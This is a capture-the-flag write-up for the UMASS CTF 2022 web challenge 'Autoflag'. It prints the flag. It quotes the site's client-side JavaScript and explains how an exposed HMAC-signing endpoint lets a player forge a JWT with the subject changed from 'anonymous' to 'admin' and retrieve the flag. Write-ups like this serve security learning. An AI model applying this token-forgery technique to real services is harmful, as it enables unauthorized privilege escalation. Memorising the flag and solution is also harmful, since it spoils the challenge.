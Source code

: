 # UMASS CTF 2022 WEB - Autoflag
  Flag: UMASS{W0W_TH1$_1$_4_C00L_FL4G_BRUH!_69420}
## Question
    My friend made this website that automatically serves you a flag. He says he patched it recently and would pay me 100 v-bucks if I could get his super secret flag. Please help me out!!!
http://34.148.103.218:4829
## Write-up
When you open the website,you'll see this
![image](https://user-images.githubusercontent.com/94618005/162439259-6341e608-303c-4c06-bb07-301107674747.png)
then if you click on **give me flag** button,and you'll get
![image](https://user-images.githubusercontent.com/94618005/162439568-5d1b9ae7-e85e-4786-b0ca-e1b51c535802.png)

and we back to the home page,if you click on **checkout the autoflag API**,you'll lead to a github website looks like this
![image](https://user-images.githubusercontent.com/94618005/162440367-62054cef-08a3-4626-a452-6e9e3e37a3e6.png)

So first,i trying to intercept every page that i can visit.
when i intercepted cheakout the autoflag API's request,you'll see this
![image](https://user-images.githubusercontent.com/94618005/162441325-cb5f8cb6-aac8-427d-88ec-18c8c2b235e1.png)
As you can see,the response told users do not change their identify from **anonymous** to **admin**, hmmmm... it's seems like a little sus!,  
and also told users check out their github cus they moved their server to server-side.

So we checkout the source code
#### Source Code
    //AUTOFLAG API V.1 : AUTOMATICALLY AUTHENTICATE USERS THEN REDIRECT TO FLAG
    function base64url(source) {
        encodedSource = btoa(source);
        while (encodedSource.endsWith('=')) {
            encodedSource = encodedSource.substring(0, encodedSource.length - 1)
        }
        encodedSource = encodeURI(encodedSource)
        console.log(encodedSource)
        return encodedSource;
    }

    function getSignedHMAC(unsignedToken) {
        return new Promise((resolve, reject) => {
            var xhr = new XMLHttpRequest()
            xhr.open("POST", 'http://34.148.103.218:4829/api/sign-hmac', true)

            //Send the proper header information along with the request
            xhr.setRequestHeader("Content-Type", "application/x-www-form-urlencoded")

            xhr.onreadystatechange = function () { // Call a function when the state changes.
                if (this.readyState === XMLHttpRequest.DONE && this.status === 200) {
                    resolve(xhr.responseText)
                }
            }
            xhr.send(`message=${unsignedToken}`)
        })
    }

    async function signToken() {
        header = `{"typ":"JWT","alg":"HS256"}`
        data = `{"fresh":false,"iat":1648755893,"jti":"a5139f01-3e20-446c-9627-16580f32f118","type":"access","sub":"anonymous","nbf":1648755893,"exp":1648756793}`
        unsignedToken = base64url(header) + "." + base64url(data)
        console.log(unsignedToken)
        let signature = await getSignedHMAC(unsignedToken)
        signature = signature.replaceAll('+', '-').replaceAll('=', '')
        let JWT = unsignedToken + "." + signature
        document.cookie = JWT
    }

    signToken()

    document.getElementById('redir').innerText = 'Redirecting you to your flag shortly'
    setTimeout(() => {
        window.location.replace("/flag");
    }, 2000)
   when you see the source code,you can find out that this problem will send a POST requests to **/api/sign-hmac** and get a unsigned Token,
   then use it to create a new JWT.
   So we just need grab the code,and paste it in the console of this challenge.and add a console.log() under JWT.
   don't forget try to change your identify from anonymous to admin.
   Then run it,and will get this back
   ![image](https://user-images.githubusercontent.com/94618005/162445164-b62ff40e-0374-48e2-96a7-a3f1b58ebdd8.png)
   
   So now we have a new JWT that the users identify is admin,and we changed cookies with this new JWT,then we send a GET requests to /flag,and you will get
   
  ![image](https://user-images.githubusercontent.com/94618005/162447392-f9a5aa35-9601-4739-80a3-f6a47ab72fa0.png)

   If get the response like "token is expired",don't be nervous,change your exp to another datetime before you print out the new JWT. 
  
